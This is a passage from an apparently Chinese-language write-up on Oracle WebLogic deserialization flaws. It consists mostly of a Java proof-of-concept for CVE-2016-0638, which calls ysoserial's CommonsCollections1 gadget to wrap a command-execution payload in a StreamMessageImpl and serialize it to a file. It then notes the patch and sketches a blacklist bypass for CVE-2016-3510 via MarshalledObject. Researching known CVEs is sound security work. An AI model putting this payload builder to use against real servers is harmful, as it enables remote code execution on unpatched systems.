 ```java
import weblogic.jms.common.StreamMessageImpl;

import java.io.*;

public class CVE_2016_0638 {

    public static void main(String[] args) throws IOException {
        byte[] payload = exec("CommonsCollections1", "touch /tmp/CVE_2016_0638");
        StreamMessageImpl streamMessage = new StreamMessageImpl(payload);
        ser(streamMessage, "CVE_2016_0638.ser");
    }

    public static byte[] exec(String gadget, String command) throws IOException {
        String[] cmd = {"java", "-jar", "/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar", gadget, command};
        InputStream in = Runtime.getRuntime().exec(cmd).getInputStream();

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        byte[] b = new byte[4096];
        int a = -1;

        while ((a = in.read(b)) != -1) {
            baos.write(b, 0, a);
        }

        return baos.toByteArray();
    }

    public static void ser(Object obj, String serName) throws IOException {
        File file = new File(serName);
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(file));
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
}
```

### 修复

补丁：2016年4月p22505423_1036_Generic
把原生的ois换成了FilteringObjectInputStream

## CVE-2016-3510

weblogic.corba.utils.MarshalledObject不在黑名单中，并且在readResolve的时候会读取objBytes的值赋给新new的ois。那么我们在objBytes中放入rce payload即可。
